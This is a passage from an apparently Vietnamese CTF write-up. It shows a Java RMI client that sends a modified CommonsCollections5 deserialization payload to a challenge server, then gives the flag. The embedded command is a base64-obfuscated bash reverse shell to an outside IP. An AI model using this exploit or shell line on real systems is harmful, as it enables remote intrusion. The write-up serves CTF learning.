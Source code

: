 Như vậy ta đã có payload **doublevkay_ModifiedCommonsCollections5** tương tự như **CommonsCollections5** nhưng là phiên bản đặc biệt cho challenge này. Việc còn lại là tạo và gửi payload lên server.

```java
package rmi;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }
    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDMuOTIuMjguMTg3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";

        try {
            Object payload = new doublevkay_ModifiedCommonsCollections5().getObject(cmd);
            ascisInterf.login(payload);
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![pic5](img/p5.png)

Flag: `ASCIS{Oops_You_Pwn_RMI_@gain_with__some_tricks}`

## Thảo luận thêm

Trong phần [Fuzz Ysoserial Payloads](#fuzz-ysoserial-payloads), sau khi loại bớt rất nhiều payloads không hợp lệ thông qua **ClassNotFoundException**, thì vẫn còn một vài exception khác được quăng ra - bên cạnh `InvalidClassException InvokerTransformer`. Xem lại logs exception [tại đây](./log.txt). 

***Vậy giả sử không có hint từ tác giả, làm sao để biết chọn payload nào để đâm sâu hơn mà giải?***
